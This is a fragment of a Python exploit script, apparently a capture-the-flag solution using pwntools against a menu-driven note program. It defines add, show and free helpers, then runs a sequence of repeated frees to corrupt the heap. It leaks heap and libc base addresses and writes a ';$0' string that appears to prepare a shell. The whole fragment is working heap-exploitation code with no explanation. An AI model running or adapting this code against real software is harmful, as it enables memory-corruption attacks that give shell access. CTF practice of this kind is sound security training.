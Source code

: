 ```python
    return p.recvline()

def re(x):
    return p.recv(x)

def add(idx,price,length,data):
    ru("Your choice: ")
    sl(str(1))
    ru("uy: ")
    sl(str(idx))
    ru("many: ")
    sl(str(price))
    ru("note: ")
    sl(str(length))
    ru("tent: ")
    se(data)

def add2(idx,price,length):
    ru("Your choice: ")
    sl(str(1))
    ru("uy: ")
    sl(str(idx))
    ru("many: ")
    sl(str(price))
    ru("note: ")
    sl(str(length))

def show():
    ru("Your choice: ")
    sl(str(2))

def free(idx):
    ru("Your choice: ")
    sl(str(3))
    ru("for: ")
    sl(str(idx))

add(1,0x10,0x90,"1"*8)

add(1,0x10,0x80,p64(0))

free(1)

add(1,0x10,0x30,"3"*8)
free(2)
add(1,0x10,0x20,";$0\x00")
add(1,0x10,0x20,"2"*8)
free(0)
free(0)

show()
ru("Name: ")
heap=u64(re(6).ljust(8,"\x00"))-0x260
print hex(heap)

for i in range(6):
    free(0)

show()
ru("Name: ")
lib=u64(re(6).ljust(8,"\x00"))-0x3ebca0
print hex(lib)

```